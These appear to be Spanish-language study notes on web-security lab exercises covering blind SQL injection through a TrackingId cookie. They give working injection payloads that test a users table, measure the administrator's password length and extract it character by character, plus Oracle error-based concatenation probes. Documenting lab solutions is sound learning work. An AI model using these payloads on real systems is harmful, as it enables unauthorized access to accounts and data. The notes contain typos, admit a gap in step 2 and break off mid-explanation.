 
# Blind SQL injection with conditional responses

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the 
results of the relevant SQL query or the details of any database errors.
With blind SQL injection vulnerabilities, many techniques such as UNION attacks,
are not effective because they rely on being able to see the results of the injected query within the application's responses.
It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Paso 1

Identificar que en la cookie existe una inyeccion SQL.

En este ejemplo tenemos una cookie "TrackId" primero se prueba si es vulerable 

```
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=1--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=2--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
```

Si regresa el mensaje de "Welcome back" eso quiere decir que esta interpretando nuestro codigo. Probar con 1=2 para que de false porque una se evelua con true
y la otra con false.

## Paso 2

(falta saber como se supo que tenidamos estas tablas y usuarios)

El siguiente paso es probar si la tabla users existe eso se hace con una consulta la cual pone una x(o cualquier caracter) 
en cada fila por cada registro que exista dentro de la base:

```
Cookie: TrackingId=UHO0YeDpDdzu3u9A' and (select 'x' from users limit 1)='x'-- // recuerda el ctrl + U

```

Si nos da el mensaje de "Welcome back" quiere decir que es true y que esta tabla users existe. 
***Select 'x'...*** es una sentencia que pone una x por cada fila que tenga la tabla en este caso se limita a 1
y como se iguala a x si exite seria x=x lo que regresa true 

## Paso 3 

Ir sacando datos evaluando con true or false


```
'and (select 'a' from users where username='administrator')='a'--

'and (select username from users where username='administrator')='administrator'--


```

Primero se checho si existe el usuario "administrator (que si existe porque devolvio true por tanto el mensaje de welcome bacK)
Se hizo con diferentes metodos todos probados y funcionaron por eso hay 2 sentencias de unos
a


## Paso 4

Sacar el password. Primero se saca el len del password para posteriormente irlo sacando
Se utilizo el ***Intruder*** dar clear y poner add en la payload poner snipper 
y revisar cuando las peticiones son diferentes.


```
'and (select username from users where username='administrator' and length(password)>19)='a'--

'and (select 'a' from users where username='administrator' and length(password)>19)='a'--

```

Dio 20 aunque la consulta de 

```

'and (select 'a' from users where username='administrator' and length(password)>20)='a'--
 
```


Para el segundo query caracter ya da false porque el numero es 20 no mayor a 20 


## Paso 5

***Substring sintaxis***

```
SUBSTRING(EXPRESION(COLUMNA),POSICION(EMPIEZA EN 1),LENGTH).

```

Se utiliza substring para sacar los datos las posiciones empienzan index 1.


```
'and (select substr(password,1,1) from users where username='administrator')='a'--
```

Se puede usar el ataque cluster Bomb pero solo en Burp Pro 
iteraria sobre los cambpos (select substring(password,*,1) y where username='administrator')='*'


```
'and (select substr(password,2,1) from users where username='administrator')='a'--

'and (select substr(password,2,1) from users where username='administrator')='$a$'--
```


Asi uno por uno iria iterando para sacar el password.

# Blind SQL injection with conditional errors

En este caso la base de datos no regresa el mensaje de welcome back de entrada la inyeccion sql se encuentra en la cookie osea que el camino mas facil es
abrir burp e ir inyectando desde ahi sentencias sql.


## Paso 1

Intentamos ver que error manda como ejecuta la consulta etc

```
TrackingId=ilj71quJBUaTO5Yi'
```

Vemos que ya da error entonces intentamos cerrar la y no nos da error lo que nos dice que esta interpretandola bien.

```
TrackingId=ilj71quJBUaTO5Yi''
```
Nos damos cuenta que para que sirva tenemos que cerrar esa consulta lo que nos lleva a un tema de concatenar datos

```
'||(select '') ||'
```
Esta es  una consulta totalmente valida pero nos devuelve error ¿Porque? Quiza nos enfrentamos a una base de datos
tipo Oracle que tienes que especificar de donde quieres sacar datos probamos...

```
'||(select '' from dual) ||'
' || (select '' from users where rownum=1' ||'

```
# ¿Que ES ROWNUM y ROW_NUMBER() vs ROWNUM

>https://tipsfororacle.blogspot.com/2016/09/difference-between-rownum-and-rownumber.html?m=1

## ROWNUM

Esta intruccion asigna un numero cuando se regresa el resultado en una consulta de 1 hasta n al resultado como un tipo ID pero no se muestra

## ROW_NUMBER()

Esta intruccion de igual manera pone un numero pero la diferencia es que pone un numero en base a un orden ejemplo si tenemos 10 personas 5 primeros hombres y 5 mujeres pondria del 1 al 5 en los hombres y del 1 al 5 en mujeres porque ordeno por genero.

***Por lo tanto***

ROWNUMBER permite regresar de una consulta solo un solo registro en este caso es importante porque al ser una concatencion ' str || (str2) || str3' no rompe 
la consulta.

# Logica

Nos regresa que todo esta bien lo renderiza si ponemos dual1 no lo haria daria ***error***
Entonces aqui tenemos un punto ***como aprovechar** Bueno si hacemos una consulta por ejemplo a la tabla users
deberia de renderizar todo pero como sacamos los datos¿?

Para sacar datos usamos el "CASE WHEN CONDICION1 THEN GENERAERROR ELSE TODOOK" 




